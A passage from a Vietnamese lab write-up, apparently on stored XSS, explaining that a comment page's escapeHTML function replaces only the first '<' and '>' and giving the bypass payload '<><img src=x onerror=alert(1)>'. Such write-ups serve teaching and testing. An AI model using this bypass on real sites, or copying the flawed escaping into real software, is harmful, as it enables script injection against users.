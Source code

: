 Kiểm tra thì luồng hoạt động của nó giống như bài trước, chỉ khác là giờ nó không dùng hàm `eval` ở đây nữa mà thay vào đó là:

```javascript=
if (this.readyState == 4 && this.status == 200) {
    let comments = JSON.parse(this.responseText);
    displayComments(comments);
}

....
//BÊN CẠNH ĐÓ CŨNG EscapeHTML của comment-author và comment-body
let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
firstPElement.innerHTML = newInnerHtml

//Body
if (comment.body) {
...
commentBodyPElement.innerHTML = escapeHTML(comment.body);
...
}
```

Kết quả trả về là dạng json như sau:

```jsonld
[
   {
      "avatar":"",
      "website":"",
      "date":"2023-01-17T05:14:00.036155276Z",
      "body":"aaaaaaaaaaaaa",
      "author":"bbbbbbbbbbbbbbb"
   }
]
```

Chú ý, ta thấy hàm `escapeHTML` của nó được viết như sau:

```javascript=
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```
Tuy nhiên hàm `replace` trong javascript chỉ replace first element mà nó match, nên để bypass, ta chỉ cần đặt cặp dấu ngoặc nhọn phía trước payload.

Vì dấu `/` bị esacpe nên ta sử dụng thẻ img như sau.

Payload:

`<><img src=x onerror=alert(1)>`

Kết quả:

>![](https://i.imgur.com/coiNt7g.png)

<hr>
